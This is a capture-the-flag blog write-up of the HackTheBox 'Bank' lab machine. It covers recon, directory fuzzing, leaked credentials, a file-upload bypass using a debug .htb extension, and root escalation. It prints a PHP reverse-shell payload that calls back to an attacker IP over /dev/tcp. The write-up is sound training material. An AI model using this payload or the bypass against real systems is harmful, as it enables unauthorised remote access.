 +++
title = "HackTheBox - Bank"
description = ""
type = ["posts","post"]
tags = [
    "HackTheBox",
    "CTF",
    "Bug",
]
date = "2020-06-29"
categories = [
    "HackTheBox",
    "CTF",
]
series = ["HackTheBox"]
[ author ]
  name = "0xSc0ut"
+++
In the series of HackTheBox our next stop is ‘Bank’.

This is an Linux based machine which is tagged with ‘Easy’ severity, it was fun learning by playing with this box.But it needs lots of patience and information gathering skills to successfully exploit it.


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593499809806_Screenshot+2020-06-30+at+12.19.52+PM.png)


**Tools:**

* PortScan - Nmap and Masscan
* Proxy - Burp Suite
* Directory Search - [ffuf](https://github.com/ffuf/ffuf)
* Privilege Escalation - [LinuxPrivilegeChecker](https://github.com/sleventyeleven/linuxprivchecker)

**Steps To Reproduce:**

So without any delay i just started scanning all ports and sersion configuration using masscan and nmap

**Initial Recon:**


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593500049001_Screenshot+2020-06-30+at+12.23.59+PM.png)

![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593500103632_Screenshot+2020-06-30+at+12.24.53+PM.png)


On viewing the result port 22 appeared to be unusual after surfing i didn’t find anything intresting, meanwhile i ran fuff to search directories.

On accessing port 80, we can see that default apache page is available

![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501039346_Screenshot+2020-06-30+at+12.40.08+PM.png)


Dead end!!

After taking a look a forum disscussion, there was mentioned something about hostname, so with less hope i configured host name in /etc/hosts


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501195247_Screenshot+2020-06-30+at+12.43.02+PM.png)


 
I don’t know why this behaves like this, i got a web application with a login page 


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501270552_Screenshot+2020-06-30+at+12.43.32+PM.png)


**Directory Search:**

After long time of struggling with login page nothing came up, so i started running fuff with different files


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501526158_Screenshot+2020-06-30+at+12.47.29+PM.png)

![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501517590_Screenshot+2020-06-30+at+12.46.46+PM.png)


******Successful login:**

After lots of scanning i found something useful


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501578621_Screenshot+2020-06-30+at+11.20.45+AM.png)


While looking at those file contents, it had some information which were encrypted,


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501656815_Screenshot+2020-06-30+at+12.50.10+PM.png)


So i started scrolling down to find anything unusual, here we go 


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501700352_Screenshot+2020-06-30+at+11.22.59+AM.png)


One file appear to have different file size, on referring the file i get to know some information which lead me to login successfully


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501778813_Screenshot+2020-06-30+at+11.23.35+AM.png)


Boom!! we are inside



![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593502015116_Screenshot+2020-06-30+at+12.54.29+PM.png)


**Command Execution:**

In support tab i found file upload functionality, using which i try to upload php file which was rejected.


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593502166604_Screenshot+2020-06-30+at+11.27.29+AM.png)


So this expects image file, right as traditional method i used [exiftool](https://github.com/xapax/security/blob/master/bypass_image_upload.md) to store my reverse shell content into image file

But by doing so my image got rendered and i didn’t get any shell.

During my initial recon i found some like this


     <!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->

So i try to upload my reverse shell by creating a file with .htb extension


    Reverse shell code:
    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.24/1234 0>&1'");
    ?>

Finally we are into the server


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593502665235_Screenshot+2020-06-30+at+11.39.03+AM.png)


**User Flag:**

I thought www-data won’t have permission to read user.txt but to my suprise it was readable


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593503586536_Screenshot+2020-06-30+at+11.40.17+AM.png)


**Privilege Escalaltion:**

So for escalating to root, basic information are required. Just transfer linuxprivilegechecker.py file to /tmp directory and run 

Based on results i found something interesting which is running as root privilege


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593503876094_Screenshot+2020-06-30+at+11.57.57+AM.png)


So executing this file got me root 


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593503907340_Screenshot+2020-06-30+at+12.00.44+PM.png)


Thank you, Have a good day

